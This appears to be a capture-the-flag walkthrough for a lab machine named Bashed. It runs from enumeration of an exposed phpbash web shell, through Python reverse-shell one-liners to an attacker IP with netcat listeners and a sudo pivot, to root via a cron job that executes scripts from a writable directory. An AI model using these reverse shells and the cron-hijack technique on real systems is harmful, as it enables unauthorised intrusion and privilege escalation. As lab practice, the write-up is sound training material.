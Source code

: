 # IP Address: 10.10.10.68

# Enumeration
```
┌──(code㉿kali)-[~]
└─$ nmapAutomator.sh -H 10.10.10.68 -t all

Running all scans on 10.10.10.68

Host is likely running Linux

---------------------Starting Script Scan-----------------------


PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)

```

### HTTP
Browsing to the site, we see some potentially useful information. 
![[Pasted image 20211113203204.png]]

Fuzzing, we found http://10.10.10.68/dev/phpbash.php which looks to be a php shell.

![[Pasted image 20211113203534.png]]

The output show us that this shell will not allow us to leverage the sudo privileges of the www-data user without a TTY shell. 
```
www-data@bashed
:/var/www/html/dev# sudo -l

Matching Defaults entries for www-data on bashed:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
(scriptmanager : scriptmanager) NOPASSWD: ALL
www-data@bashed
:/var/www/html/dev# sudo /bin/sh

sudo: no tty present and no askpass program specified
```

# Exploitation

Create a reverse shell with python and catch it with our netcat listener. 

On target:
```
www-data@bashed
:export RHOST="10.10.14.7";export RPORT=4488;python -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'

--2021-11-13 17:46:38-- http://10.10.14.7/shell.php
```

Locally: 
```
┌──(code㉿kali)-[~]
└─$ nc -nlvp 4488                                                                                  
listening on [any] 4488 ...

connect to [10.10.14.7] from (UNKNOWN) [10.10.10.68] 35358
$ 
$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ python -c 'import pty;pty.spawn("/bin/bash")'
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@bashed:/var/www/html/dev$

```

We can run any command as scriptmanager using this format:
```
www-data@bashed:/var/www/html/dev$ sudo -u scriptmanager ls
sudo -u scriptmanager ls
phpbash.min.php  phpbash.php
```

To get shell as scriptmanager:
```
www-data@bashed:/var/www/html/dev$ sudo -u scriptmanager /bin/bash
sudo -u scriptmanager /bin/bash
scriptmanager@bashed:/var/www/html/dev$ id
id
uid=1001(scriptmanager) gid=1001(scriptmanager) groups=1001(scriptmanager)
```

user.txt 

![[Pasted image 20211113224301.png]]

# Privilege Escalation
In looking around the file system, we notice a /scripts directory in /root. In it there is a python script owned by our user (scriptmanager) which produces a test.txt file owned by root. 
```
scriptmanager@bashed:~$ ls -alh /scripts
ls -alh /scripts
total 16K
drwxrwxr--  2 scriptmanager scriptmanager 4.0K Dec  4  2017 .
drwxr-xr-x 23 root          root          4.0K Dec  4  2017 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 Nov 13 19:55 test.txt
scriptmanager@bashed:~$ cd /scripts
cd /scripts
scriptmanager@bashed:/scripts$ cat test.txt     
cat test.txt
testing 123!scriptmanager@bashed:/scripts$ cat test.py
cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close

```

In current running processes we see that root is running a cron job periodically to execute all .py files in the /scripts directory.

```
root        848  0.0  0.2  50220  2852 ?        S    17:04   0:00  _ /usr/sbin/CRON -f
root        849  0.0  0.0   4508   708 ?        Ss   17:04   0:00  |   _ /bin/sh -c cd /scripts; for f in *.py; do python "$f"; done
root        851  0.0  0.7  35080  7072 ?        S    17:04   0:00  |       _ python test2.py
root        852  0.0  0.3  21164  3576 pts/3    Ss+  17:04   0:00  |           _ /bin/bash

```

Create a new python file to execute the reverse shell script used previously, this time on a different port. Wait for the shell.

On target: 
```
scriptmanager@bashed:~$ echo 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.7",4499));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")' > test2.py

```

Locally:
```
┌──(code㉿kali)-[~]                                                                     
└─$ nc -nlvp 4499                                                                                                                                     
listening on [any] 4499 ...                                                                                                                                        
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.68] 59774                                                                                                         
# id
id
uid=0(root) gid=0(root) groups=0(root)

```


# Proof

root.txt

![[Pasted image 20211114201829.png]]